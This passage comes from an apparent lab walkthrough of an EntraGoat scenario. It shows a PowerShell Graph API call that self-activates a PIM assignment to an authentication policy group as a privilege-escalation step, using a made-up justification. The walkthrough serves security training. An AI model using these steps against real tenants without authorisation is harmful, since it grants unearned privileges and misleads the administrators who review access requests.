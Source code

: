 \_\_\_\_\_

**Note:** Since this is (currently) the final scenario in the EntraGoat series, we intentionally include some of these dead-end enumeration steps to illustrate the thought process behind privilege discovery. Systematic exploration of both service principals and user identities is critical for identifying viable escalation paths in Entra ID.

\_\_\_\_\_

### Step 5: Activating PIM assignment

Now that we’ve identified eligibility for the Authentication Policy Managers group, we can self-activate the PIM assignment using the Graph API:

```powershell
$activationBody = @{

    accessId = "member"

    principalId = $currentUser.Id

    groupId = $authGroup.Id

    action = "selfActivate"

    scheduleInfo = @{

        startDateTime = (Get-Date).ToUniversalTime().ToString("o")

        expiration = @{

            type = "afterDuration"

            duration = "PT8H"

        }

    }

    justification = "Need to configure authentication policies for support tickets"

}

Invoke-MgGraphRequest -Method POST `

    -Uri "https://graph.microsoft.com/beta/identityGovernance/privilegedAccess/group/assignmentScheduleRequests" `

    -Body $activationBody -ContentType "application/json"

```

After a short propagation delay, we can re-check group membership to confirm active status (*Figure 15*).
